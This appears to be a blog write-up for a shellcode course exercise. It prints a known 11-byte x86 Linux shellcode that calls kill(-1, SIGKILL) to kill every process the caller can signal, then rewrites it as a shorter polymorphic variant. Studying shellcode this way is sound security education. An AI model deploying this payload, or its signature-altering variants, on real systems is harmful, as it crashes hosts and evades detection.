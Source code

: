 From the man page:

> If pid equals -1, then sig is sent to every process for which the calling >
> process has permission to send signals, except for process 1 (init), but see
> below.

So, our purpose is to write a C piece of code that execute a kill(-1, 9) since
9 is the SIGKILL signal.

Original code is 11 byte long. For the assignment engagement rule, the modified
code can't be longer than 150% of the orignal one, that it is 16 bytes (and an
half :-)).

{%highlight asm%}
; kill-em-all original shellcode
; http://shell-storm.org/shellcode/files/shellcode-212.php

section .text

global _start

_start:
  ; kill(-1, SIGKILL)
  push byte 37
  pop eax
  push byte -1
  pop ebx
  push byte 9
  pop ecx
  int 0x80
{%endhighlight%}

To create a first alternate version, we can separate shellcode parts in smaller ones and then rewrite in an alternative way:

* set EAX to 0x25 (that is 37 in decimal, the code to kill(2) system call as
  defined in /usr/include/i386-linux-gnu/asm/unistd_32.h)
* set EBX to -1, since we want to launch the signal to every process
* set ECX to 9, since it is the code for the SIGKILL signal (as defined in
  /usr/include/asm-generic/signal.h)
* call INT 0x80

{%highlight asm%}

section .text

global _start

_start:
	xor ebx, ebx

	mov cl, byte [data]
	mov al, byte [data+1]

	dec ebx
	int 0x80

data: 	db 0x25, 0x09
{%endhighlight%}
